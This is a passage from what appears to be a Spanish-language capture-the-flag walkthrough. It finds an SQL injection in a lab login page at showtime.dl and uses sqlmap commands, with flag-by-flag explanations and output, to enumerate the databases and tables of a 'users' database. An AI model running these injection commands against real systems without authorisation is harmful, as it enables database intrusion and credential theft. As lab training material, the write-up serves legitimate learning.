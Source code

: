 ```
// Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1 in /var/www/html/login_page/auth.php:29 Stack trace: #0 /var/www/html/login_page/auth.php(29): mysqli_query() #1 {main} thrown in /var/www/html/login_page/auth.php on line 29
```

Al ver que puede ser Vulnerable a SqlInyection procedemos a usar la herramienta [`slqmap`](#user-content-fn-1)[^1]



```bash
sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs
```

* _**sqlmap**: Es una herramienta de código abierto utilizada para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web._
* &#x20;_**-u http://showtime.dl/login\_page/index.php**: Esta opción especifica la URL de la página web que     se va a probar. En este caso, es la página de inicio de sesión de la aplicación._
* _**--forms**: Esta opción le indica a sqlmap que busque formularios en la página especificada y que intente extraer información de esos formularios para llevar a cabo las pruebas de inyección SQL._
* _**--batch**: Esta opción permite que sqlmap funcione en modo no interactivo, utilizando respuestas predeterminadas para cualquier pregunta que normalmente requeriría interacción del usuario. Esto es útil si quieres automatizar el proceso sin tener que confirmar cada acción._
* _**--dbs**: Con esta opción, sqlmap intentará obtener una lista de las bases de datos disponibles en el servidor. Esto se utiliza comúnmente después de haber identificado una vulnerabilidad de inyección SQL._

Y efectivamente nos encuentra 5 bases de datos y por obvias razones la base que nos interesa es Users, por lo tanto vamos  trabajar con ella

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```

`sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs -D users -tables`

* _**-D users**: Especifica que quieres trabajar con la base de datos llamada "users"._
* _**--tables**: Indica que deseas listar las tablas dentro de la base de datos especificada._

Y luego hallamos una tabla llamada `usuarios`  asi que ingresamos

```
Database: users
[1 table]
+----------+
| usuarios |
+----------+
```

`sqlmap -u http://showtime.dl/login_page/index.php --forms --batch --dbs -D users -T usuarios -columns`
